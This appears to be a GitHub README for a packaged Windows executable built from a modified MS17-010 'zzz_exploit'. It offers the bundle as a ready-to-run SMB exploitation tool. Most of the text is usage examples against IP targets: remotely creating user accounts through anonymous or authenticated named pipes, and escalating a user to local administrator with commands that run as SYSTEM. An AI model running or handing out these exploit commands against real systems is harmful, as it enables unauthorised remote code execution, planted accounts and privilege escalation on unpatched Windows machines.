 # ms17-010
This is a modified version of the [Worawit Wang: GitHub](https://github.com/worawit/MS17-010/) zzz_exploit for MS17-010.<br>
It implements a few options such as username/password specification and an arbitrary command to be executed.<br>
It does not change anything related to the SMB exploitation<br>
This is a bundle with an executable and dependencies and DOES NOT require python install.<br>
Built with Pyinstaller.

# Usage

Unzip the bundle and from the command line execute ms17-010-zzz.exe<br><br>
ms17-010-zzz.exe -h<br>
usage: ms17-010-zzz.exe [-h] -t TARGET -c COMMAND -P PIPE [-u USER]
                        [-p PASSWORD]
<br><br>
MS17-010 - zzz_explot modified and converted to binary https://github.com/irgoncalves/ms17-010<br>
<br>
optional arguments:<br>
  -h, --help            show this help message and exit<br>
  -t TARGET, --target TARGET<br>
                        Target for exploitation<br>
  -c COMMAND, --command COMMAND<br>
                        Command to be executed as a service<br>
  -P PIPE, --pipe PIPE  Pipe to connect (e.g. netlogon)<br>
  -u USER, --user USER  Username to authenticate in case no anomymous<br>
                        connection to a pipe is allowed<br>
  -p PASSWORD, --password PASSWORD<br>
                        Password for the user<br>
<br>
Example: ms17-010.exe -t 172.16.0.2 -c 'net user /add testusr teste123'<br>
<br>

Example to add a user remotely connecting anonymously to a named pipe:<br>
ms17-010-zzz.exe -t 10.128.1.208 -c "net user /add teste2 teste2123"<br>
<br>
Example to add a user remotely specifying a named pipe and a valid non-administrator user:<br>
ms17-010-zzz.exe -t 10.128.1.208 -c "net user /add teste2 teste2123" -P netlogon -u svruser -p abc123<br>
<br>
Example to locally escalate privilege for an existent user (all commands are executed by SYSTEM):<br>
ms17-010-zzz.exe -t 127.0.0.1 -c "net localgroup administrators teste2 /add" -P netlogon -u teste2 -p teste2123

# Limitations
Currently supports only x64 platform (Tested running from Windows 10, 2K8)

